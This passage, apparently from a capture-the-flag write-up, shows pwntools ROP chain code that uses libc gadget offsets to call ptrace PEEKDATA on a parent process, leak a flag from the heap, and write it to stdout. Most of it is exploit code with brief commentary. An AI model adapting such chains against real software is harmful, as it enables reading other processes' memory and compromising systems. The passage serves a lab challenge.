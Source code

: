 
    ```python
    def craft_ptrace_peek_payload(src, dest) -> bytes:
        payload = flat([
                # PTRACE PEEKDATA
                libc.address + 0x45eb0, # pop rax; ret
                PTRACE_NR,
                libc.address + 0x11f2e7,# pop rdx; pop r12; ret,
                src,
                0,
                libc.sym['ptrace'],

                # move PEEK'd data (rax) to destination
                libc.address + 0x11f2e7, # pop rdx; pop r12; ret,
                dest,
                0,
                libc.address + 0x3a411, # mov dword ptr [rdx], eax ; ret
        ]) 
        return payload
            
            # snippet...
            # continuing the rop payload from before
                    
            # RDI AND RSI FOR PEEKDATA
            libc.address + 0x2a3e5, # pop rdi; ret
            PTRACE_PEEKDATA,
            libc.address + 0x2be51, # pop rsi; ret,
            PPID,

    for i in range(0, 40, 4):
            payload += craft_ptrace_peek_payload(flag_heap + i, stack + i)
    ```
3.  _**Writing leaked flag to stdout**_\
    next we just need to write the flag to stdout, I think this is pretty self explanatory, just call the write syscall\


    ```python
            # WRITE
            libc.address + 0x45eb0, # pop rax; ret
            WRITE_NR,
            libc.address + 0x2a3e5, # pop rdi; ret
            STDOUT,
            libc.address + 0x2be51, # pop rsi; ret,
            stack,
            libc.address + 0x11f2e7, # pop rdx; pop r12; ret,
            0x40,
            0x0,
            libc.sym['write'],
    ```
